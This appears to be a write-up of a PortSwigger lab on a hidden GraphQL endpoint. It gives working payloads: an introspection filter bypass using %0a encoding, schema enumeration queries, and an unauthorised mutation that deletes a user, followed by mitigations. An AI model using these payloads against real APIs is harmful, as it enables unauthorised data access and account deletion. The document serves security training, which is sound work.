







#  Lab Report: Finding a Hidden GraphQL Endpoint

##  Platform
PortSwigger Web Security Academy

---

##  Objective
To identify a hidden GraphQL endpoint, bypass introspection restrictions, enumerate the schema manually, and exploit a vulnerable mutation to delete the user `carlos`.

---

##  Overview
This lab demonstrates how GraphQL endpoints can still be exploited even when introspection is disabled. By bypassing filters and manually enumerating queries and mutations, an attacker can discover sensitive operations and abuse them due to missing authorization checks.

---

#  Methodology

The following steps were performed:

1. Intercepted traffic using Burp Suite  
2. Identified hidden `/api` GraphQL endpoint  
3. Attempted introspection (blocked)  
4. Bypassed introspection filter using encoding  
5. Enumerated schema manually  
6. Identified vulnerable mutation  
7. Executed mutation to delete user `carlos`  

---

#  Exploitation Steps

---

## 🔹 Step 1: Lab Initial State

- Accessed the lab  
- Observed application behavior  

📸 **Screenshot 1: Lab Initial Page (Not Solved)**  


---

## 🔹 Step 2: Discover GraphQL Endpoint

- Used Burp Suite → HTTP History  
- Found hidden endpoint:

```
/api
```

📸 **Screenshot 2: HTTP History Showing /api Endpoint**  


---

## 🔹 Step 3: Introspection Attempt (Blocked)

```graphql
{
  __schema {
    types {
      name
    }
  }
}
```

Response:
```
GraphQL introspection is not allowed
```

📸 **Screenshot 3: Introspection Blocked Response**  


---

## 🔹 Step 4: Bypass Introspection

Used newline encoding:

```
%0a
```

Payload:

```
GET /api?query=query%0a{__schema{types{name}}}
```

✔ Successfully retrieved schema data

📸 **Screenshot 4: Introspection Bypass Success**  


---

## 🔹 Step 5: Manual Enumeration

Discovered:

### Queries:
```graphql
getUser(id: Int)
```

### Mutations:
```graphql
deleteOrganizationUser(input: {id: Int})
```

📸 **Screenshot 5: Schema Enumeration Response**  


---

## 🔹 Step 6: Extract User Data

```graphql
query {
  getUser(id:3){
    username
  }
}
```

Response:
```
carlos
```

📸 **Screenshot 6: getUser Query Result**  


---

## 🔹 Step 7: Exploit Mutation

```graphql
mutation {
  deleteOrganizationUser(input:{id:3}){
    user{id}
  }
}
```

✔ Successfully deleted user `carlos`

📸 **Screenshot 7: Mutation Execution (User Deleted)**  


---

## 🔹 Step 8: Lab Solved

- Lab marked as solved  

📸 **Screenshot 8: Lab Solved Confirmation**  


---

#  Key Findings

- Hidden GraphQL endpoint exposed  
- Introspection restriction bypassable  
- Sensitive mutation accessible without authorization  
- User enumeration possible  

---

#  Vulnerability

## Broken Access Control (IDOR)

The API allows direct manipulation of user objects without verifying permissions.

---

#  Impact

- Unauthorized user deletion  
- Potential account takeover  
- Exposure of internal schema  

---

#  Mitigation

- Enforce authorization on all queries and mutations  
- Validate user permissions before performing actions  
- Avoid exposing sensitive operations publicly  
- Use proper access control mechanisms  

---

#  Conclusion

This lab demonstrates that disabling introspection alone is not sufficient for securing GraphQL APIs. Attackers can still enumerate and exploit functionality manually, leading to severe security issues.

---
